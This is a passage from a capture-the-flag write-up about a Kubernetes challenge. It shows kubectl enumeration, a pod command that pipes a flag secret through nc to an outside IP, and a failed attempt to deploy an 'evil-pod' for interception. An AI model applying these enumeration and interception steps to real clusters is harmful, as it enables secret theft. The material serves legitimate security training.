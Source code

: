 ```shell
rayanlecat@potluck2023 /workspace # kubectl describe pods/flag-sender-676776d678-5s6t5 --namespace=flag-sender
Name:             flag-sender-676776d678-5s6t5
Namespace:        flag-sender
...[snip]...
    Command:
      sh
    Args:
      -c
      while true; do echo $FLAG | nc 1.1.1.1 80 || continue; echo 'Flag Send'; sleep 10; done
...[snip]...
```

We can see that the pod makes a connection to port 80 of ip 1.1.1.1 (which is cloudflare's DNS) every 10 seconds, sending the flag, but the problem is that we don't have access to the machine in question and we don't have access to the container running in this pod. The problem is how to impersonate or spoof the ip address 1.1.1.1 in order to retrieve the flag. To answer this question, we need to continue enumerating the cluster and our rights within it:

```shell
rayanlecat@potluck2023 /workspace # kubectl auth can-i --list --namespace=flag-reciever         
Resources                                       Non-Resource URLs                      Resource Names   Verbs
pods.*                                          []                                     []               [create delete]
services.*                                      []                                     []               [create delete]
...[snip]...
```

As you can see, you can create pods and services in the flag-reciever namspace. Let's try deploying a pod to check that it works properly:

```shell
rayanlecat@potluck2023 /workspace # cat pod.yml
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  namespace: flag-reciever
spec:
  containers:
  - name: evil-container
    image: busybox

rayanlecat@potluck2023 /workspace # kubectl apply -f pod.yml --namespace=flag-reciever 
Error from server (Forbidden): error when creating "pod.yml": pods "evil-pod" is forbidden: violates PodSecurity "restricted:latest": 
allowPrivilegeEscalation != false (container "evil-container" must set securityContext.allowPrivilegeEscalation=false), 
unrestricted capabilities (container "evil-container" must set securityContext.capabilities.drop=["ALL"]), runAsNonRoot != true (pod or container "evil-container" must set securityContext.runAsNonRoot=true), seccompProfile (pod or container "evil-container" must set securityContext.seccompProfile.type to "RuntimeDefault" or "Localhost")
```
